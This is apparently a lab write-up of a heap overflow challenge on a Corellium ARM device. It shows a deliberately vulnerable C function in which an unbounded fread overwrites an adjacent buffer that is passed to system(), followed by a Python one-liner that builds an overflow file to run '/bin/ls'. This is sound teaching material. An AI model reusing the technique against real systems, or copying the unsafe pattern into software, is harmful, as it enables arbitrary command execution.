 ![1](/images/posts/arm/5.png)

So it seems like it prints out the input for the **whoami** command

Let's cheat a bit to look at the Source code itself

{% highlight c %}

void heapOverflow(char *filename){
    printf("Heap overflow challenge. Execute a shell command of your choice on the device\n");
    printf("Welcome: from %s, printing out the current user\n", filename);
    FILE *f = fopen(filename,"rb");
    fseek(f, 0, SEEK_END);
    size_t fs = ftell(f);
    fseek(f, 0, SEEK_SET);
    char *name = malloc(0x400);
    char *command = malloc(0x400);
    strcpy(command,"whoami");
    fread(name, 1, fs, f);
    system(command);
    return;
}
{% endhighlight %}

Sure enough, passing a file with length more than **0x400** bytes will overflow the adjacent memory and might end up overflowing the string "**command**", and thus when the **system** call is made, we might be able to call our own commands.

On the Corellium device, use the following command to generate the malicious file

**python3 -c 'print("/"*0x400+"/bin/ls\x00")' > hax.txt**

Then pass it as input to the binary. 

**vuln heap hax.txt**

![1](/images/posts/arm/4.png)

